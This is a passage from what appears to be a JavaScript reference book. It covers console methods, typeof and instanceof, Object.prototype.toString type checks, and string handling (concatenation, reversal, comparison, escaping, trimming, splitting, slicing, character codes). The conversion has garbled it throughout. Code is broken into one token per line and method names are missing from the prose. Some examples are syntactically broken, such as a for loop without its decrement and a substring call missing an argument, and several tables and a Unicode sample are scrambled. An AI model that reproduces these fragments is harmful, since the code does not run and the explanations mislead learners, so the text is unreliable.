You can clear the console window using the () method. This removes all
previously printed messages in the console and may print a message
like \"Console was cleared\" in some environments.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch5-8">Section 5.8: Displaying objects and XML interactively console.dir(), console.dirxml()</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
  console.dir                                 (   object
    

  

) displays an interactive list of the properties of the specified
JavaScript object. The output is

presented as a hierarchical listing with disclosure triangles that let
you see the contents of child objects.

**var**

myObject

=

{

\"foo\"

:

{

\"bar\"

:

\"data\"

}

}

;

console.

dir

(

myObject

)

;

displays:
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
<!-- {width="7.477777777777778in" height="2.657638888888889in"} -->

  -
  console.dirxml                                  (   object
    

  -

  
  console.dirxml
  

  

  
  console.log
  

  

) prints an XML representation of the descendant elements of object if
possible, or the JavaScript representation if not. Calling () on HTML
and XML elements is equivalent to calling ().
>
**Example 1:**

console.

dirxml

(

document

)

displays:
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
<!-- {width="7.477777777777778in" height="1.6847222222222222in"} -->

**Example 2:**

console.

log

(

document

)

displays:
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
<!-- {width="7.477777777777778in" height="1.8020833333333333in"} -->

**Example 3:**

**var**

myObject

=

{

\"foo\"

:

{

\"bar\"

:

\"data\"

}

}

;

console.

dirxml

(

myObject

)

;

displays:
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
<!-- {width="6.504166666666666in" height="2.6486111111111112in"} -->

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch5-9">Section 5.9: Debugging with assertions - console.assert()</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

Writes an error message to the console if the assertion is **false**.
Otherwise, if the assertion is **true**, this does nothing.

console.

assert

(

\'one\'

===

1

)

;

Multiple arguments can be provided after the assertionthese can be
strings or other objectsthat will only be printed if the assertion
is **false**:
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
<!-- {width="6.46875in" height="1.2069444444444444in"} -->

  
  [console.assert](https://developer.mozilla.org/en-US/docs/Web/API/console/assert)
  

  

does *not* throw an AssertionError (except in Node.js), meaning that
this method is incompatible

with most testing frameworks and that code execution will not break on
a failed assertion.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h2 id="ch6">Chapter 6: Datatypes in JavaScript</h2>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch6-1">Section 6.1: typeof</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**typeof** is the \'official\' function that one uses to get the type
in JavaScript, however in certain cases it might yield some unexpected
results \...

1.  **Strings**

**typeof** \"String\" or

**typeof** Date(2011,01,01)

\"string\"

2.  **Numbers**

**typeof** 42

\"number\"

3.  **Bool**

  
  **typeof** **true**
  

  

(valid values **true** and **false**)

\"boolean\"

4.  **Object**

  
  **typeof** {}
  

  

  
  **typeof** \[\]
  

  

  
  **typeof** **null**
  

  

  
  **typeof** /aaa/
  

  

or or or or

**typeof** Error()

\"object\"

5.  **Function**

**typeof** **function**(){}

\"function\"

6.  **Undefined**

**var** var1; **typeof** var1

\"undefined\"

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch6-2">Section 6.2: Finding an object\'s class</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

To find whether an object was constructed by a certain constructor or
one inheriting from it, you can use the

**instanceof**

command:

*//We want this function to take the sum of the numbers passed to it*

*//It can be called as sum(1, 2, 3) or sum(\[1, 2, 3\]) and should give
6*

**function**

sum

(

\...

arguments

)

{

**if**

(

arguments.

length

===

1

)

{

**const**

\[

firstArg

\]

=

arguments

**if**

(

firstArg

**instanceof**

Array

)

{

*//firstArg is something like \[1, 2, 3\]*

**return**

sum

(

\...

firstArg

)

*//calls sum(1, 2, 3)*

}

}

**return**

arguments.

reduce

(

(

a

,

b

)

=\>

a

\+

b

)

}

console.

log

(

sum

(

1

,

2

,

3

)

)

*//6*

console.

log

(

sum

(

\[

1

,

2

,

3

\]

)

)

*//6*

console.

log

(

sum

(

4

)

)

*//4*

Note that primitive values are not considered instances of any class:

console.

log

(

2

**instanceof**

Number

)

*//false*

console.

log

(

\'abc\'

**instanceof**

String

)

*//false*

console.

log

(

**true**

**instanceof**

Boolean

)

*//false*
console.log(Symbol
(
)

<b>instanceof</b>
Symbol
)

*//false*

Every value in JavaScript besides **null** and **undefined** also has
a constructor property storing the function that was used to construct
it. This even works with primitives.

*//Whereas instanceof also catches instances of subclasses, //using
obj.constructor does not* console.log(\[\] **instanceof** Object, \[\]
**instanceof** Array) *//true true* console.log(\[\].constructor ===
Object, \[\].constructor === Array) *//false true*

**function** isNumber(value) {

*//null.constructor and undefined.constructor throw an error when
accessed* **if** (value === **null** \|\| value === **undefined**)
**return** **false** **return** value.constructor === Number }
console.log(isNumber(**null**), isNumber(**undefined**)) *//false
false* console.log(isNumber(\'abc\'), isNumber(\[\]), isNumber(() =\>
1)) *//false false false* console.log(isNumber(0),
isNumber(Number(\'10.1\')), isNumber(**NaN**)) *//true true true*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch6-3">Section 6.3: Getting object type by constructor name</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

When one with **typeof** operator one gets type object it falls into
somewhat wast category\...

In practice you might need to narrow it down to what sort of
\'object\' it actually is and one way to do it is to use

  -
  Object     .   **prototype**   .   toString      .   call   (   yourObject
  -    -    

  -

object constructor name to get what flavour of object it actually is:
)

1.  **String**

  -
  Object     .   **prototype**    .   toString       .   call    (   \"String\"
  -  -    -  

  -

)

\"\[object String\]\"

2.  **Number**

  
  Object       .   **prototype**       .   toString          .   call     (   42
          

  

)

\"\[object Number\]\"

3.  **Bool**

  -
  Object       .   **prototype**      .   toString         .   call     (   **true**
    -  -    -

  -

)

\"\[object Boolean\]\"

4.  **Object**

  
  Object
  

  

  
  call
  
  call

  

  
  toString
  
  toString

  

  
  **prototype**
  
  **prototype**

  

  
  Object
  
  Object

  

\...(()) or \...({})

\"\[object Object\]\"

5.  **Function**

  -
  Object     .   **prototype**    .   toString       .   call    (   **function**
  -  -    -  

  -

(){})

\"\[object Function\]\"

6.  **Date**

  
  Object   .   **prototype**   .   toString    .   call   (   **new**     (   2015   ,   10   ,   21
                                                              Date                                
                

  

))

\"\[object Date\]\"

7.  **Regex**

  
  **new** RegExp
  

  

  
  call
  
  call

  

  
  toString
  
  toString

  

  
  **prototype**
  
  **prototype**

  

  
  Object
  
  Object

  

  
  */foo/*
  

  

\...(()) or \...();

\"\[object RegExp\]\"

8.  **Array**

  
  Object         .   **prototype**         .   toString           .   call
      -  

  

(\[\]);

\"\[object Array\]\"

9.  **Null**

  -
  Object       .   **prototype**      .   toString         .   call     (   **null**
    -  -    -

  -

);

\"\[object Null\]\"

10. **Undefined**

  -
  Object     .   **prototype**   .   toString       .   call    (   **undefined**
  -      -  

  -

);

\"\[object Undefined\]\"

11. **Error**

  
  Object      .   **prototype**     .   toString        .   call    (   Error
        -  

  

());

\"\[object Error\]\"

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h2 id="ch7">Chapter 7: Strings</h2>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch7-1">Section 7.1: Basic Info and String Concatenation</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

Strings in JavaScript can be enclosed in Single quotes \'hello\',
Double quotes \"Hello\" and (from ES2015, ES6) in Template Literals
(*backticks*) \`hello\`.

**var**

hello

=

\"Hello\"

;

**var**

world

=

\'world\'

;

**var**

helloW

=

\`Hello World\`

;

*// ES2015 / ES6*

  
  String
  

  

Strings can be created from other types using the () function.

**var**

intString

=

String

(

32

)

;

*// \"32\"*

**var**

booleanString

=

String

(

**true**

)

;

*// \"true\"*

**var**

nullString

=

String

(

**null**

)

;

*// \"null\"*

  
  toString
  

  

Or, () can be used to convert Numbers, Booleans or Objects to Strings.

**var**

intString

=

(

5232

)

.

toString

(

)

;

*// \"5232\"*

**var**

booleanString

=

(

**false**

)

.

toString

(

)

;

*// \"false\"*

**var**

objString

=

(

{

}

)

.

toString

(

)

;

*// \"\[object Object\]\"*

  
  String                 .   fromCharCode
  -  

  

Strings also can be created by using method.

String

.

fromCharCode

(

104

,

101

,

108

,

108

,

111

)

*//\"hello\"*

Creating a String object using **new** keyword is allowed, but is not
recommended as it behaves like Objects unlike primitive strings.

**var**

objectString

=

**new**

String

(

\"Yes, I am a String object\"

)

;

**typeof**

objectString

;

*//\"object\"*

**typeof**

objectString.

valueOf

(

)

;

*//\"string\"*

**Concatenating Strings**

  
  concat
  

  

String concatenation can be done with the + concatenation operator, or
with the built-in () method on the String object prototype.

**var**

foo

=

\"Foo\"

;

**var**

bar

=

\"Bar\"

;

console.

log

(

foo

\+

bar

)

;

*// =\\"FooBar\"*

console.

log

(

foo

\+

\" \"

\+

bar

)

;

*// =\\"Foo Bar\"*

foo.

concat

(

bar

)

*// =\\"FooBar\"*

\"a\"

.

concat

(

\"b\"

,

\" \"

,

\"d\"

)

*// =\\"ab d\"*

Strings can be concatenated with non-string variables but will
type-convert the non-string variables into strings.

**var**

string

=

\"string\"

;

**var**

number

=

32

;

**var**

boolean

=

**true**

;

console.

log

(

string

\+

number

\+

boolean

)

;

*// \"string32true\"*

**String Templates**

Version ≥ 6

Strings can be created using template literals (*backticks*)
\`hello\`.

**var**

greeting

=

\`Hello\`

;

  
  variable
  

  

With template literals, you can do string interpolation using \${}
inside template literals:

**var**

place

=

\`World\`

;

**var**

greet

=

\`Hello \$

{

place

}

!

\`

console.

log

(

greet

)

;

*// \"Hello World!\"*

You can use String.raw to get backslashes to be in the string without
modification.

\`a\\\\b\`

*// = a\\b*

String

.

raw

\`a\\\\b\`

*// = a\\\\b*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch7-2">Section 7.2: Reverse String</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

The most \"popular\" way of reversing a string in JavaScript is the
following code fragment, which is quite common:

**function**

reverseString

(

str

)

{

**return**

str.

split

(

\'\'

)

.

reverse

(

)

.

join

(

\'\'

)

;

}

reverseString

(

\'string\'

)

;

*// \"gnirts\"*

However, this will work only so long as the string being reversed does
not contain surrogate pairs. Astral symbols, i.e. characters outside
of the basic multilingual plane, may be represented by two code units,
and will lead this naive technique to produce wrong results. Moreover,
characters with combining marks (e.g. diaeresis) will appear on the
logical \"next\" character instead of the original one it was combined
with.

\'?????.\'

.

split

(

\'\'

)

.

reverse

(

)

.

join

(

\'\'

)

;

*//fails*

While the method will work fine for most languages, a truly accurate,
encoding respecting algorithm for string reversal is slightly more
involved. One such implementation is a tiny library called
[Esrever](https://github.com/mathiasbynens/esrever), which uses
regular expressions for matching combining marks and surrogate pairs
in order to perform the reversing perfectly.
>
**Explanation**
>
**Section Explanation Result** str The input string \"string\"

  
  [String.**prototype**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/split)   
  - -
  [deliminator )](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/split)          

  

  
  [split](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/split)
  

  

  
  \"s\"     ,   \"t\"     ,   \"r\"     ,   \"i\"     ,   \"n\"     ,   \"g\"
            

  

Splits string str into an array. The
>
[.(](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/split)
>
parameter \"\" means to split between each \[\] character.

  
  [Array](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/reverse)   [.](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/reverse)   [**prototype**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/reverse)   [.](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/reverse)   [reverse](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/reverse)
   - - - -

  

  
  \"g\"     ,   \"n\"     ,   \"i\"     ,   \"r\"     ,   \"t\"     ,   \"s\"
            

  

Returns the array from the split string with

[()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/reverse)
\[\]

its elements in reverse order.
>
Joins the elements in the array together into

  -
  [**prototype**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/join)   [.](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/join)   [join](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/join)   [(](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/join)   [deliminator](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/join)
    -  

  -

[Array.](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/join)a
string. The \"\" parameter means an empty
>
\"gnirts\"

[)](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/join)
deliminator (i.e., the elements of the array

are put right next to each other).
>
**Using spread operator**

Version ≥ 6

**function**

reverseString

(

str

)

{

**return**

\[

\...

String

(

str

)

\]

.

reverse

(

)

.

join

(

\'\'

)

;

}

console.

log

(

reverseString

(

\'stackoverflow\'

)

)

;

*// \"wolfrevokcats\"*

console.

log

(

reverseString

(

1337

)

)

;

*// \"7331\"*

console.

log

(

reverseString

(

\[

1

,

2

,

3

\]

)

)

;

*// \"3,2,1\"*

**Custom**

**e**

**revers**

**(**

**)**

**function**

**function**

reverse

(

string

)

{

**var**

strRev

=

\"\"

;

**for**

(

**var**

i

=

string.

length

\-

1

;

i

\>=

0

;

i

\

)

{

strRev

+=

string

\[

i

\]

;

}

**return**

strRev

;

}

reverse

(

\"zebra\"

)

;

*// \"arbez\"*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch7-3">Section 7.3: Comparing Strings Lexicographically</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
  [localeCompare](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/localeCompare)
  

  

To compare strings alphabetically, use
[()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/localeCompare).
This returns a negative value if the reference string is
lexicographically (alphabetically) before the compared string (the
parameter), a positive value if it comes afterwards, and a value of 0
if they are equal.

**var**

a

=

\"hello\"

;

**var**

b

=

\"world\"

;

console.

log

(

a\.

localeCompare

(

b

)

)

;

*// -1*

  
  localeCompare
  

  

The \and \< operators can also be used to compare strings
lexicographically, but they cannot return a value of zero (this can be
tested with the == equality operator). As a result, a form of the ()
function can be written like so:

**function**

strcmp

(

a

,

b

)

{

**if**

(

a

===

b

)

{

**return**

0

;

}

**if**

(

a

\>

b

)

{

**return**

1

;

}

**return**

\-

1

;

}

console.

log

(

strcmp

(

\"hello\"

,

\"world\"

)

)

;

*// -1*

console.

log

(

strcmp

(

\"hello\"

,

\"hello\"

)

)

;

*// 0*

console.

log

(

strcmp

(

\"world\"

,

\"hello\"

)

)

;

*// 1*

This is especially useful when using a sorting function that compares
based on the sign of the return value (such as sort).

**var**

arr

=

\[

\"bananas\"

,

\"cranberries\"

,

\"apples\"

\]

;

arr.

sort

(

**function**

(

a

,

b

)

{

**return**

a\.

localeCompare

(

b

)

;

}

)

;

console.

log

(

arr

)

;

*// \[ \"apples\", \"bananas\", \"cranberries\" \]*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch7-4">Section 7.4: Access character at index in string</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
  [charAt](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/charAt)
  

  

Use
[()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/charAt)
to get a character at the specified index in the string.

**var**

string

=

\"Hello, World!\"

;

console.

log

(

string.

charAt

(

4

)

)

;

*// \"o\"*

Alternatively, because strings can be treated like arrays, use the
index via [bracket
notation](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Property_Accessors).

**var**

string

=

\"Hello, World!\"

;

console.

log

(

string

\[

4

\]

)

;

*// \"o\"*

  
  [charCodeAt](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/charCodeAt)
  

  

To get the character code of the character at a specified index, use
[()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/charCodeAt).

**var**

string

=

\"Hello, World!\"

;

console.

log

(

string.

charCodeAt

(

4

)

)

;

*// 111*

Note that these methods are all getter methods (return a value).
Strings in JavaScript are immutable. In other words, none of them can
be used to set a character at a position in the string.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch7-5">Section 7.5: Escaping quotes</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

If your string is enclosed (i.e.) in single quotes you need to escape
the inner literal quote with *backslash* \\

**var**

text

=

\'L

**\\\'**

albero means tree in Italian\'

;

console.

log

(

text

)

;

\\\\

\"L\'albero means tree in Italian\"

Same goes for double quotes:

**var**

text

=

\"I feel

**\\\"**

high

**\\\"**

\"

;

Special attention must be given to escaping quotes if you\'re storing
HTML representations within a String, since HTML strings make large
use of quotations i.e. in attributes:
>
**var** content = \"\
Hello
World!\</p\>\"; *// valid String* **var** hello = \'\
I**\\\'**d like to say \"Hi\"\</p\>\'; *// valid
String*

  
  apos   ; (or &#  39   ;) as a single quote and &       quot   ; ( or &#  34
     -  - 

  

Quotes in HTML strings can also be represented using &;) as double
quotes.
>
**var** hi = \"\
I\'d like to say
&quot;Hi&quot;\</p\>\"; *// valid String* **var** hello = \'\
I&apos;d like to say \"Hi\"\</p\>\'; *// valid
String*

  
  apos                ; and &                         quot
    

  

*Note:* The use of &; will not overwrite double quotes that browsers
can automatically place on

  
  **\<p**            **\>** being     **\<p**   =   \"special\"   **\>**,   quot
  class=special      made to          class                       using &   
  - -   -  

  

attribute quotes. For example ; can lead to

  
  **\<p**    =   \"\"special\"\"   **\>** where \\\"    **\<p**    =   \"special\"
  class                            will be              class          
  -    -  -

  

**\>**.

Version ≥ 6

If a string has \' and \" you may want to consider using template
literals (*also known as template strings in previous ES6 editions*),
which do not require you to escape \' and \". These use backticks (\`)
instead of single or double quotes.

**var**

x

=

\`

\"Escaping \"

and

\' can become very annoying\`;

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch7-6">Section 7.6: Word Counter</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
  **\<textarea**
  

  

Say you have a **\>** and you want to retrieve info about the number
of:

Characters (total)

Characters (no spaces)

Words

Lines

**function**

wordCount

(

val

)

{

**var**

wom

=

val.

match

(

*/\\S+/g*

)

;

**return**

{

charactersNoSpaces

:

val.

replace

(

*/\\s+/g*

,

\'\'

)

.

length

,

characters

:

val.

length

,

words

:

wom

?

wom.

length

:

0

,

lines

:

val.

split

(

*/\\r\*\\n/*

)

.

length

}

;

}

*// Use like:*

wordCount

(

someMultilineText

)

.

words

;

*// (Number of words)*

[jsFiddle exampl]{.underline}

[e](http://jsfiddle.net/RokoCB/5nfay7d1/206/)

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch7-7">Section 7.7: Trim whitespace</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
  String               .   **prototype**                  .   trim
    -  -

  

To trim whitespace from the edges of a string, use :
>
\" some whitespaced string \".trim(); *// \"some whitespaced string\"*
>
Many JavaScript engines, but [not Internet
Explorer](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/TrimLeft#Browser_compatibility),
have implemented non-standard trimLeft and trimRight methods. There is
a
[proposal](https://github.com/sebmarkbage/ecmascript-string-left-right-trim),
currently at Stage 1 of the process, for standardised trimStart and
trimEnd methods, aliased to trimLeft and trimRight for compatibility.

*// Stage 1 proposal*

\" this is me \"

.

trimStart

(

)

;

*// \"this is me \"*

\" this is me \"

.

trimEnd

(

)

;

*// \" this is me\"*

*// Non-standard methods, but currently implemented by most engines*

\" this is me \"

.

trimLeft

(

)

;

*// \"this is me \"*

\" this is me \"

.

trimRight

(

)

;

*// \" this is me\"*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch7-8">Section 7.8: Splitting a string into an array</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
  split
  

  

Use . to go from strings to an array of the split substrings:

**var**

s

=

\"one, two, three, four, five\"

s\.

split

(

\", \"

)

;

*// \[\"one\", \"two\", \"three\", \"four\", \"five\"\]*

  
  join
  

  

Use the **array method** . to go back to a string:

s\.

split

(

\", \"

)

.

join

(

\"\\"

)

;

*// \"one\two\three\four\five\"*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch7-9">Section 7.9: Strings are unicode</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**All JavaScript strings are unicode!**

**var**

s

=

\"some

∆

≈

ƒ

unicode

¡

™

£

¢

¢

¢

\"

;

s\.

charCodeAt

(

5

)

;

*// 8710*

There are no raw byte or binary strings in JavaScript. To effectively
handle binary data, use Typed Arrays.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch7-10">Section 7.10: Detecting a string</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

To detect whether a parameter is a *primitive* string, use **typeof**:

**var**

aString

=

\"my string\"

;

**var**

anInt

=

5

;

**var**

anObj

=

{

}

;

**typeof**

aString

===

\"string\"

;

*// true*

**typeof**

anInt

===

\"string\"

;

*// false*

**typeof**

anObj

===

\"string\"

;

*// false*

  
  **new** String                      (   \"somestr\"
    

  

If you ever have a String object, via ), then the above will not work.
In this instance, we can use **instanceof**:

**var**

aStringObj

=

**new**

String

(

\"my string\"

)

;

aStringObj

**instanceof**

String

;

*// true*

To cover both instances, we can write a simple helper function:

**var**

isString

=

**function**

(

value

)

{

**return**

**typeof**

value

===

\"string\"

\|\|

value

**instanceof**

String

;

}

;

**var**

aString

=

\"Primitive String\"

;

**var**

aStringObj

=

**new**

String

(

\"String Object\"

)

;

isString

(

aString

)

;

*// true*

isString

(

aStringObj

)

;

*// true*

isString

(

{

}

)

;

*// false*

isString

(

5

)

;

*// false*

Or we can make use of toString function of Object. This can be useful
if we have to check for other types as well say in a switch statement,
as this method supports other datatypes as well just like **typeof**.
>
**var** pString = \"Primitive String\";
>
**var** oString = **new** String(\"Object Form of String\");
>
Object.**prototype**.toString.call(pString);*//\"\[object String\]\"*
>
Object.**prototype**.toString.call(oString);*//\"\[object String\]\"*
>
A more robust solution is to not *detect* a string at all, rather only
check for what functionality is required. For example:

**var**

aString

=

\"Primitive String\"

;

*// Generic check for a substring method*

**if**

(

aString.

substring

)

{

}

*// Explicit check for the String substring prototype method*

**if**

(

aString.

substring

===

String

.

**prototype**

.

substring

)

{

aString.

substring

(

0

,

)

;

}

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch7-11">Section 7.11: Substrings with slice</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
  slice
  

  

Use .() to extract substrings given two indices:

**var**

s

=

\"0123456789abcdefg\"

;

s\.

slice

(

0

,

5

)

;

*// \"01234\"*

s\.

slice

(

5

,

6

)

;

*// \"5\"*

Given one index, it will take from that index to the end of the
string:

s\.

slice

(

10

)

;

*// \"abcdefg\"*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch7-12">Section 7.12: Character code</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

The method charCodeAt retrieves the Unicode character code of a single
character: **var** charCode = \"µ\".charCodeAt(); *// The character
code of the letter* µ *is 181*

To get the character code of a character in a string, the 0-based
position of the character is passed as a parameter to charCodeAt:

**var** charCode = \"ABCDE\".charCodeAt(3); *// The character code of
\"D\" is 68*

Version ≥ 6

Some Unicode symbols don\'t fit in a single character, and instead
require two UTF-16 surrogate pairs to encode. This is the case of
